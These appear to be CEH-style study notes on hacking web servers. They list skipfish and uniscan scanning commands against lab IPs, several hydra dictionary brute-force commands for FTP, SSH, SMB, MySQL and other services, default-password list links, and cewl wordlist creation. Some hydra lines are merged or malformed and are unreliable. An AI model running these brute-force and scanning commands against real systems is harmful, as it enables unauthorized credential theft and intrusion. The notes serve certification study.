 # 13 - Hacking Web Servers

## Module 13 - Hacking Web Servers

<details>

<summary>EMPTY</summary>



</details>

## Web Server Reconnaissance & Footprinting

### Skipfish – WebServer Recon

`skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.12:8080`

\-o path to store output, -S read only word list

### ID Server - Webserver Foot printing

* ID Serve determines the domain name associated with an IP address.
* Click the Server Query tab. In option 1, enter the URL (http://10.10.10.12:8080/CEH)
* Click Query the Server

### Uniscan - WebServer Fingerprinting (Kali)

* Use `uniscan -h` for usage techniques
* `uniscan -u http://10.10.10.12:8080/CEH -qwed` -u url scan . -q directory check, - w file check, -e robots.txt and sitemap.xml check, -d for dynamic checks
* To view report, go to /usr/share/uniscan/report

{% embed url="https://www.kali.org/tools/uniscan/" %}

### **Bruteforce Credentials using a Dictionary Attack**

* `nmap -p 21 <Target IP>`
* `hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10`
* `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11`
* `hydra -l root -P passwords.txt [-t 32] ftp`
* `hydra -L usernames.txt -P pass.txt mysql`
* `hydra -l USERNAME -P /path/to/passwords.txt -f pop3 -V`
* `hydra -V -f -L -P rdp:// hydra -P common-snmp-community-strings.txt target.com snmp`
* `hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1 hydra -l root -P passwords.txt ssh`

{% content-ref url="../hydra.md" %}
[hydra.md](../hydra.md)
{% endcontent-ref %}

### **Useful default password list**

* [http://www.phenoelit.org/dpl/dpl.html](http://www.phenoelit.org/dpl/dpl.html)
* [https://datarecovery.com/rd/default-passwords/](https://datarecovery.com/rd/default-passwords/)
* [https://github.com/Dormidera/WordList-Compendium](https://github.com/Dormidera/WordList-Compendium)

### **Making custom wordlist from website keywords:**

* **`cewl`**` ``example.com -m 5 -w words.txt`

where **cewl** is the tool, **example.com** is the site, **-m** is to specify the minimum length of the word , **-w** is to specify the output file

{% content-ref url="../cewl.md" %}
[cewl.md](../cewl.md)
{% endcontent-ref %}



